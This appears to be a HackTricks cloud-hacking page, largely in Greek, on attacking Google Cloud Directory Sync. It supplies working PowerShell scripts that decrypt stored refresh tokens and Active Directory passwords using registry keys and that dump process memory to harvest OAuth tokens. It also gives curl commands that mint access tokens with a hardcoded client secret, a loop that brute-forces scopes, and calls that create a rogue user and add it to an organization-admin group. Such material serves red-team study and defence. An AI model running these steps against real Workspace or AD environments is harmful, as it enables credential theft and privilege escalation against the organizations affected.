 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Αυτό είναι ένα εργαλείο που μπορεί να χρησιμοποιηθεί για να **συγχρονίσετε τους χρήστες και τις ομάδες του Active Directory σας με το Workspace σας** (και όχι το αντίστροφο κατά τη στιγμή της συγγραφής αυτού του κειμένου).

Είναι ενδιαφέρον γιατί είναι ένα εργαλείο που θα απαιτήσει τα **διαπιστευτήρια ενός superuser του Workspace και ενός προνομιούχου χρήστη του AD**. Έτσι, μπορεί να είναι δυνατό να το βρείτε μέσα σε έναν διακομιστή τομέα που θα συγχρονίζει χρήστες από καιρό σε καιρό.

{% hint style="info" %}
Για να εκτελέσετε ένα **MitM** στο **`config-manager.exe`** δυαδικό αρχείο, απλά προσθέστε την παρακάτω γραμμή στο αρχείο `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει το **GCDS**, να αποκτήσει πληροφορίες σχετικά με τη διαμόρφωση και **ακόμα και τους κωδικούς πρόσβασης και τα κρυπτογραφημένα διαπιστευτήρια**.
{% endhint %}

Επίσης, σημειώστε ότι το GCDS δεν θα συγχρονίσει τους κωδικούς πρόσβασης από το AD στο Workspace. Αν κάτι, θα δημιουργήσει απλώς τυχαίους κωδικούς πρόσβασης για τους νεοδημιουργηθέντες χρήστες στο Workspace, όπως μπορείτε να δείτε στην παρακάτω εικόνα:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

Το δυαδικό αρχείο `config-manager.exe` (το κύριο δυαδικό αρχείο GCDS με GUI) θα αποθηκεύσει τα διαπιστευτήρια του Active Directory που έχουν ρυθμιστεί, το refresh token και την πρόσβαση από προεπιλογή σε ένα **xml αρχείο** στον φάκελο **`C:\Program Files\Google Cloud Directory Sync`** σε ένα αρχείο που ονομάζεται **`Untitled-1.xml`** από προεπιλογή. Αν και θα μπορούσε επίσης να αποθηκευτεί στα `Documents` του χρήστη ή σε **οποιονδήποτε άλλο φάκελο**.

Επιπλέον, το μητρώο **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** μέσα στο κλειδί **`open.recent`** περιέχει τις διαδρομές προς όλα τα πρόσφατα ανοιγμένα αρχεία διαμόρφωσης (xmls). Έτσι είναι δυνατό να **το ελέγξετε για να τα βρείτε**.

Οι πιο ενδιαφέρουσες πληροφορίες μέσα στο αρχείο θα είναι:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Σημειώστε πώς το **refresh** **token** και ο **κωδικός πρόσβασης** του χρήστη είναι **κρυπτογραφημένα** χρησιμοποιώντας **AES CBC** με ένα τυχαία παραγόμενο κλειδί και IV που αποθηκεύονται στο **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (όπου η βιβλιοθήκη **`prefs`** της Java αποθηκεύει τις προτιμήσεις) στα κλειδιά συμβολοσειράς **`/Encryption/Policy/V2.iv`** και **`/Encryption/Policy/V2.key`** που αποθηκεύονται σε base64.

<details>

<summary>Powershell script για την αποκρυπτογράφηση του refresh token και του κωδικού πρόσβασης</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Σημειώστε ότι είναι δυνατόν να ελέγξετε αυτές τις πληροφορίες ελέγχοντας τον κώδικα java του **`DirSync.jar`** από **`C:\Program Files\Google Cloud Directory Sync`** αναζητώντας τη συμβολοσειρά `exportkeys` (καθώς είναι η παράμετρος cli που αναμένει το δυαδικό `upgrade-config.exe` για να εξάγει τα κλειδιά).
{% endhint %}

Αντί να χρησιμοποιήσετε το σενάριο powershell, είναι επίσης δυνατό να χρησιμοποιήσετε το δυαδικό **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** με την παράμετρο `-exportKeys` και να αποκτήσετε το **Key** και **IV** από το μητρώο σε hex και στη συνέχεια να χρησιμοποιήσετε κάποιο cyberchef με AES/CBC και αυτό το κλειδί και IV για να αποκρυπτογραφήσετε τις πληροφορίες.

### GCDS - Εξαγωγή tokens από τη μνήμη

Ακριβώς όπως με το GCPW, είναι δυνατό να εξάγετε τη μνήμη της διαδικασίας του `config-manager.exe` (είναι το όνομα του κύριου δυαδικού GCDS με GUI) και θα μπορείτε να βρείτε tokens ανανέωσης και πρόσβασης (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τις ρυθμισμένες διαπιστευτήρια AD.

<details>

<summary>Εξαγωγή διαδικασιών config-manager.exe και αναζήτηση tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Δημιουργία διαπιστευτηρίων πρόσβασης από διαπιστευτήρια ανανέωσης

Χρησιμοποιώντας το διαπιστευτήριο ανανέωσης, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατόν να ζητήσετε οποιοδήποτε scope για το access token καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Δημιουργήστε έναν χρήστη και προσθέστε τον στην ομάδα `gcp-organization-admins` για να προσπαθήσετε να κλιμακώσετε στο GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Δεν είναι δυνατόν να δοθεί στον νέο χρήστη ο ρόλος του Super Admin επειδή το **refresh token δεν έχει αρκετά scopes** για να δώσει τα απαιτούμενα προνόμια.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
